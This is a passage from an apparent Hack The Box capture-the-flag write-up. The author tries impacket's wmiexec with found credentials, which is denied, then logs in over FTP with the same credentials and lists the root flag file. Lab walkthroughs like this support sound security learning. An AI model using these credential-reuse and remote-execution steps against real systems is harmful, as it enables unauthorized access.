 WMI exec too...

```
root@kali:/opt/evil-winrm# /usr/share/doc/python-impacket/examples/wmiexec.py json/superadmin:funnyhtb@10.10.10.158 cmd.exe
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[-] rpc_s_access_denied
```

FTP lets me in though and I can fetch the flag:

```
root@kali:/opt/evil-winrm# ftp 10.10.10.158
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:root): superadmin
331 Password required for superadmin
Password:
230 Logged on
Remote system type is UNIX.
ftp> ls
200 Port command successful
150 Opening data channel for directory listing of "/"
...
ftp> cd Desktop
250 CWD successful. "/Desktop" is current directory.
ftp> ls
200 Port command successful
150 Opening data channel for directory listing of "/Desktop"
-r--r--r-- 1 ftp ftp            282 May 22  2019 desktop.ini
-r--r--r-- 1 ftp ftp             32 May 22  2019 root.txt
226 Successfully transferred "/Desktop"
```
